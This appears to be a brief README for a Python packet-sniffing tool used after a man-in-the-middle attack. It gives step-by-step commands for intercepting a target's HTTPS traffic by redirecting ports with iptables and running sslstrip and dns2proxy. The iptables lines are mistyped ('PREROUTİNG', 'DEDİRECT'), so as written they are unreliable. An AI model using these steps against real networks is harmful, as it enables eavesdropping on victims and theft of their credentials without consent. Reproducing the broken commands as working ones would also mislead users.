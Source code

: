 # MyPacketListener

Use of : python3 packet_listener.py

Using this application, we can listen to the target's network after performing a man-in-the-middle attack.

To listen to https sites, you need to do the following commands:

We download dns2proxy. You can find it on Github.

We run the following commands separately in the terminal :

iptables -t nat -A PREROUTİNG -p tcp --destination-port 80 -j DEDİRECT --to-port 10000

iptables -t nat -A PREROUTİNG -p udp --destination-port 53 -j DEDİRECT --to-port 53

We run the sslstrip command in the terminal

We run the python dns2proxy.py command in the terminal

All of these will be written in a different terminal.

sslstrip comes installed on Linux. 

We just need to download dns2proxy extra.
